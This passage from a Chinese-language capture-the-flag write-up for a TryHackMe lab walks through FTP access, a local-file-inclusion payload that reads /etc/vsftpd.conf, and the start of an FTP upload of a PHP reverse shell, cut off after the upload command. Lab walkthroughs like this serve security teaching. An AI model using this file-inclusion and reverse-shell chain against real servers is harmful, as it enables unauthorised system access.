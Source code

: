 ┌──(root💀kali)-[~/tryhackme/watcher]
└─# ftp 10.10.208.80 
Connected to 10.10.208.80.
220 (vsFTPd 3.0.3)
Name (10.10.208.80:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
```

拿到flag2。files文件夹没有内容,但是可以上传文件。

思路：LFI+文件上传，触发反弹shell

所以ftp的路径是什么？

我们尝试读取ftp的配置文件，playload为：```/post.php?post=/etc/vsftpd.conf```,显示：
```
  listen=NO
listen_ipv6=YES
anonymous_enable=NO
local_enable=YES
write_enable=YES
local_umask=022
dirmessage_enable=YES
use_localtime=YES
xferlog_enable=YES
connect_from_port_20=YES
chroot_local_user=YES
secure_chroot_dir=/var/run/vsftpd/empty
pam_service_name=vsftpd
force_dot_files=YES
pasv_min_port=40000
pasv_max_port=50000
user_sub_token=$USER
local_root=/home/$USER/ftp
```

可以看到ftp的默认目录是：```/home/$USER/ftp```,也就是```/home/ftpuser/ftp/```下

这个时候可以写一个test.php看看能不能打印出php的输出，如果可以，证明可以执行我们的php代码，这部分不再演示。

我们上ftp上传一个反弹shell

```
┌──(root💀kali)-[~/tryhackme]
└─# ftp 10.10.208.80
Connected to 10.10.208.80.
220 (vsFTPd 3.0.3)
Name (10.10.208.80:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put /root/tryhackme/reverse_shell.php ./files/shell.php
local: /root/tryhackme/reverse_shell.php remote: ./files/shell.php